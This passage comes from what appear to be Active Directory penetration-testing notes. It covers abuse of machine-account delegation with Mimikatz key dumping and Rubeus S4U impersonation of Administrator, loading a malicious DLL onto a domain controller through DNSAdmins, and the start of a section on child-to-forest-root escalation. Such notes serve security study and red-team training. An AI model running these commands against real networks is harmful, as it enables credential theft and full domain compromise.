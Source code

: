     # Add your owned machine account to trusted delegate to 
    Set-ADComputer -Identity "target_machine" -PrincipalsAllowedToDelegateToAccount "0xd4y-comp$"
    
    # Get hash for 0xd4y-comp$
    Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
    
    # Use Rubeus to access HTTP service as domain admin (can pick whatever service you want)
    Rubeus.exe s4u /user:0xd4y-comp$ /aes256:<MACHINE_ACCOUNT_HASH> /msdsspn:HTTP/follow-0xd4y /impersonateuser:Administrator /ptt
    ```
    
    - with write permissions you can instead change the delegation of that machine (e.g. changing constrained to unconstrained), but this is noisier

## DNSAdmins

- members of DNSAdmins group can load arbitrary DLLs as system (privileges of dns.exe)
- can load arbitrary DLL to DC
- if loading of plugin fails, DNS service will not start
- need privileges to restart DNS service
    - by default they are not able to restart DNS service, but some organizations may have it enabled
- find DNS admins with `Get-ADGroupMember -Identity DNSAdmins`

************************Exploitation************************

```powershell
# First, serve an arbitrary DLL on some domain-joined workstation that you own
## Then, do the following:
dnscmd <DNS_SERVER> /config /serverlevelplugindll \\<WORKSTATION_YOU_OWN>\malicious.dll

# Restart the DNS service
sc \\<DNS_SERVER> stop dns
sc \\<DNS_SERVER> start dns
```


## Enterprise Admins (Child Domain to Forest Root)

- enterprise admins have access to all domains in a forest
- Enterprise Admins group only exists within forest root

Two ways of escalating privileges between two domains in same forest:

1. krbtgt hash
2. trust tickets

**********************************How Authentication Works Between Domains and Forests**********************************

Suppose you are a user in follow.0xd4y_notes.local and you try to access an app server that is present in the parent domain (0xd4y_notes.local):
